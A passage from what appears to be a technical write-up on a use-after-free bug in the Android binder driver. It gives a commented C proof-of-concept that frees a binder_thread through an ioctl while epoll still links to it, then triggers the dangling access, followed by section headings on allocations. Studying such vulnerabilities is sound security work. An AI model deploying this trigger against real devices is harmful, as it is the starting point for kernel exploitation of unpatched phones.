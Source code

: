 ```c
{
        int fd, epfd;
        struct epoll_event event = { .events = EPOLLIN };

        // Create binder_thread structure
        fd = open("/dev/binder", O_RDONLY);

        // size for epoll_create can be any uint32_t > 0
        epfd = epoll_create(1000);

        // Link binder_thread.wait to epoll_entry.whead
        epoll_ctl(epfd, EPOLL_CTL_ADD, fd, &event);

        // Free binder_thread.wait
        ioctl(fd, BINDER_THREAD_EXIT, NULL);

        // Unlink epoll_entry.whead causing UaF
        epoll_ctl(epfd, EPOLL_CTL_DEL, fd, NULL);
}
```

## Allocations

### High Level Flowchart

![](/assets/img/2023-05-27-17-09-41.png)

### Opening Binder
